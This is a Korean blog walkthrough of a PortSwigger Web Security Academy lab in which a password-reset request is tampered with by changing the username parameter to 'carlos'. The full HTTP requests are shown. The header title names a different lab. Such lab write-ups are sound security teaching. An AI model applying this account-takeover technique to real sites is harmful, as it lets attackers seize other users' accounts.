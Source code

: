 ```yaml
---
layout: post
title: "Burp Academy-인증(Authentication) 취약점: Username enumeration via subtly different responses"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, 인증취약점]
toc: true
---
```


# 개요
- 인증(Authentication)에 관련된 취약점이다. 
- 취약점 설명 주소: https://portswigger.net/web-security/authentication/other-mechanisms
- 문제 주소: : https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic
- 난이도: APPRENTICE (쉬움)

# 랩설명
패스워드 리셋 기능에 취약점이 있다. 이 것을 이용해서 calors 계정에 로그인한다. 

```
This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

Your credentials: wiener:peter
Victim's username: carlos
```

# 패스워드 재설정 과정 
패스워드 재설정 과정을 살펴본다.   
로그인 화면의 Forgot password? 버튼을 누르면 패스워드를 재설정할 수 있다. 

![패스워드 재설정 링크](/images/burp-academy-authn-3-1.png)

wiener를 입력하면 등록 이메일 주소로 패스워드 변경할 수 있는 링크가 전송된다. 

![패스워드 재설정 링크](/images/burp-academy-authn-3-4.png)

링크를 누르면 해당 유저의 패스워드를 재설정할 수 있다. 

![패스워드 재설정](/images/burp-academy-authn-3-5.png)

이 때의 HTTP요청은 다음과 같다. username 파라메터에 wiener 라는 계정명이 있는 것을 알 수 있다. 

```http
POST /forgot-password?temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo HTTP/2
Host: 0a3100a20303d26980695dee00db0032.web-security-academy.net
Cookie: session=qhlQrv3l9EcFoezCcIEiNfgiU3H3j745
Content-Length: 117
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3100a20303d26980695dee00db0032.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3100a20303d26980695dee00db0032.web-security-academy.net/forgot-password?temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo&username=wiener&new-password-1=12345&new-password-2=12345
```


# carlos유저의 패스워드 재설정
username을 carlos로 변경하고 요청해보면 302응답이 회신되는 것을 알 수 있다. 패스워드를 재설정이 성공한 것 같다. 

```http
POST /forgot-password?temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo HTTP/2
Host: 0a3100a20303d26980695dee00db0032.web-security-academy.net
Cookie: session=qhlQrv3l9EcFoezCcIEiNfgiU3H3j745
Content-Length: 117
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3100a20303d26980695dee00db0032.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3100a20303d26980695dee00db0032.web-security-academy.net/forgot-password?temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

temp-forgot-password-token=jwpDv6zqDBPAdAyR4ZIiT6lh9YPR8ffo&username=carlos&new-password-1=12345&new-password-2=12345
```


```http
HTTP/2 302 Found
Location: /
Set-Cookie: session=KeImI4omqFQeLHsGAyI4BRGmMAXVrDSp; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

변경된 패스워드를 사용해서 carlos유저로 로그인하면 로그인이 되는 것을 알 수 있다. 그리고 문제 풀이에 성공했다는 메세지가 출력된다. 

![성공](/images/burp-academy-authn-3-success.png)